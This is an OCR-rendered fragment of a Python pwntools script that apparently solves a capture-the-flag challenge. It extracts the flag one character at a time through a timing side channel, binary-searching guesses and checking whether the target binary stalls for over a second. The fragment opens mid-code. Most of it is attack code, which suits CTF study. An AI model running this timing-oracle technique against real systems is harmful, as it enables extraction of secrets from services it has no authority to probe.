```python
        p.close()
        if(local == 1):
            p = process(binary)
        else:
            p = remote(ip,port)
        continue

if __name__ == '__main__':
    pwn()
'''

if __name__ == '__main__' :
    start = time.time()
    pos = 0
    flag = ""
    while True:
        left, right = 0, len(possible_list)-1
        while left < right :
            mid = (left + right) >> 1
            p = process(binary)
            pwn(pos, ord(possible_list[mid]))
            s = time.time()
            r(timeout = 1)
            t = time.time()
            p.close()
            if t - s > 1 :
                left = mid + 1
            else :
                right = mid
        flag += possible_list[left]
        info(flag)
        if possible_list[left] == '}' :
            break
        pos = pos + 1
    success(flag)
    end = time.time()
    success("time:\t" + str(end - start) + "s")
```